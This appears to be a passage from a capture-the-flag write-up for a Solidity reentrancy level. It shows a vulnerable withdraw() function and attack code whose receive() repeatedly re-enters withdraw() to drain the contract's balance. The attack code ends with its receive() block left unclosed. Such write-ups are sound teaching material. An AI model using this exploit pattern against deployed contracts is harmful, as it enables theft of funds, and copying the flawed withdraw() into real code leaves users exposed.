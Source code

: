 ### References

* https://docs.soliditylang.org/en/v0.8.18/contracts.html#receive-ether-function

## 10 Reenstrance

To beat this level, we need to comply with

```solidity
address(instance).balance == 0
```

### Solution

Look at the guard of the `withdraw()` function

```solidity
function withdraw(uint _amount) public {
  if(balances[msg.sender] >= _amount) {
    (bool result,) = msg.sender.call{value:_amount}("");
    if(result) {
      _amount;
    }
    balances[msg.sender] -= _amount;
  }
}
```

The guard will let us pass if `balances[msg.sender] >= _amount`, and then the function will call `msg.sender`, giving it the `amount` requested, balance will be updated.

In a reentrancy attack, we craft a `receive()` function such that we call the very `withdraw()` function again. That is

```
msg.sender
  -> Reentrance.withdraw()
    -> receive()
      -> Reentrance.withdraw()
        -> receive()
          -> (and so on)
```

This flow will keep working, as the guard `balances[msg.sender] >= _amount` is `true`, draining the smart contract in the process.

An example on how the attack could be written is

```solidity
function attack() external {
  // first donate something to be able to pass the guard,
  // that is balances[msg.sender] >= _amount
  target.donate{value: 0.001 ether}(address(this));

  // then trigger the withdraw function
  // the latter will call receive() below.
  target.withdraw(0.001 ether);
}

receive() external payable {
  uint targetBalance = address(target).balance;

  // this can be a clean way to drain the contract.
  // you can also just set target.withdraw() and
  // re-enter until it reverts.
  if (targetBalance >= 0.001 ether) {
    target.withdraw(0.001 ether);
  }
```